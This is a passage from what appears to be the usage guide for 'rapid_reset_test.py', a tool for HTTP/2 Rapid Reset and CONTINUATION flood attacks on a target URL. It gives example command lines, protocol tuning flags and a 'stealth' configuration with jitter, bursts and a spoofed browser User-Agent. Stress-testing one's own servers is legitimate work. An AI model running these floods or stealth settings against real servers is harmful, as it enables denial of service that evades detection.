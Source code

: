 ### Example 5: CONTINUATION Flood
```bash
python3 rapid_reset_test.py https://target.com \
    --pattern continuation_flood \
    --random-headers \
    --header-count 20 \
    --requests 100 \
    --max-errors 50 \
    --continue-on-error
```
**Purpose:** Test CONTINUATION frame processing vulnerabilities

### Example 6: Gradual Stress Testing
```bash
python3 rapid_reset_test.py https://target.com \
    --pattern gradual_reset \
    --connections 20 \
    --requests 500 \
    --connection-delay 0.1 \
    --request-delay 0.05 \
    --track-latency
```
**Purpose:** Find exact breaking point through gradual escalation

---

## 🎛️ ADVANCED CONFIGURATION COMBINATIONS

### High-Precision Timing Control
```bash
--delay 0.0001 --request-delay 0.001 --jitter 0.05 --connection-delay 0.1
```

### Maximum Protocol Customization  
```bash
--window-size 1048576 --frame-size 65536 --header-table-size 16384 --enable-push --priority-frames
```

### Comprehensive Monitoring
```bash
--track-latency --track-responses --monitor-memory --verbose --debug --log-file full.log
```

### Stealth Configuration
```bash
--randomize-streams --jitter 0.5 --burst-size 3 --burst-delay 5.0 --custom-headers "User-Agent: Chrome/96.0"
```

---

## 📈 MONITORING & OUTPUT CAPABILITIES

